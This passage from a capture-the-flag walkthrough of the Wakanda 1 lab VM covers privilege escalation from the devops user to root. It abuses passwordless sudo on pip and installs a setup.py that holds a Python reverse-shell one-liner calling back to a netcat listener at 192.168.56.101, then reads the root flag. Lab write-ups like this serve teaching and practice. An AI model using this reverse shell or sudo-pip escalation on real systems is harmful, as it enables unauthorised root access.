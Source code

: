 The next step was to privelage escalate to the root user to get root.txt; which I assumed was in /root. As it turns out, devops has sudo access:

```
$ sudo -l
Matching Defaults entries for devops on Wakanda1:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User devops may run the following commands on Wakanda1:
    (ALL) NOPASSWD: /usr/bin/pip
```

So devops can run pip as the root user. That’s different. I checked the permissions on /usr/bin/pip and sure enough, it was SUID root.

```
$ ls -l /usr/bin/pip
-rwxr-sr-- 1 root developer 281 Feb 27  2015 /usr/bin/pip
```

So how to get a root shell? pip can install a package from a local directory when the -e flag is passed to the install option. pip will look for a setup.py in the directory and execute that. So all I needed to do was create a setup.py that would give me a root shell. In this case, I decided to re-use the connect-back script in .antivirus.py and just changed the port number.

```
$ pwd
/home/devops
$ mkdir win
$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.101",9998));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > win/setup.py
```

I started up another netcat listener to receive the root shell, and executed pip with sudo:

```
root@kali:~/pwn# nc -lvp 9998
listening on [any] 9998 ...
192.168.56.102: inverse host lookup failed: Unknown host
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.102] 57599
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# ls /root
root.txt
```

Success! The root.txt was now accessible, reading it netted me the final flag:

```
# cat /root/root.txt
 _    _.--.____.--._
( )=.-":;:;:;;':;:;:;"-._
 \\\:;:;:;:;:;;:;::;:;:;:\
  \\\:;:;:;:;:;;:;:;:;:;:;\
   \\\:;::;:;:;:;:;::;:;:;:\
    \\\:;:;:;:;:;;:;::;:;:;:\
     \\\:;::;:;:;:;:;::;:;:;:\
      \\\;;:;:_:--:_:_:--:_;:;\
       \\\_.-"             "-._\
        \\
         \\
          \\
           \\ Wakanda 1 - by @xMagass
            \\
             \\

```